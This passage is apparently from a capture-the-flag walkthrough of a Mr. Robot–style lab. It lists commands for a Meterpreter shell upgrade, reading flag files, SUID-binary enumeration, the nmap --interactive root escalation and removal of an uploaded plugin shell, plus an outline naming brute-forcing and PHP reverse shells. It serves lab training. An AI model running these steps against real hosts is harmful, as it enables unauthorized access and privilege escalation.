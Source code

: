 5. **Interacting with Meterpreter:**
    ```plaintext
    meterpreter > shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```

6. **Navigating the File System:**
    ```bash
    cd /home/robot
    ls -a
    cat key-1-of-3.txt
    cat key-2-of-3.txt
    ```

### Privilege Escalation (if needed)
- **Identify SUID binaries:**
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```

- **Exploit Nmap for Privilege Escalation:**
    ```bash
    /usr/local/bin/nmap --interactive
    !sh
    ```

- **Read the Final Key:**
    ```bash
    find / -name "key-3-of-3.txt" 2>/dev/null
    cat /root/key-3-of-3.txt
    ```

### Clean Up
1. **Remove Uploaded Files:**
    ```bash
    rm /wp-content/plugins/lCXSKnpNHP/DXgKrelAug.php
    rm -rf /wp-content/plugins/lCXSKnpNHP
    ```



Step 1: Set Up Environment
Step 2: Network Scanning : 
    - nmap
Step 3: Enumeration
    - Gobuster
    - Wappalyzer
Step 4: Vulnerabilities
    - nmap
    - nikto
Step 5: Brute-force
    - Python Scripts
    - Hydra
Step 6: Reverse Shell
    - PHP Reverse Shell
    - Metasploit
Report
Videos
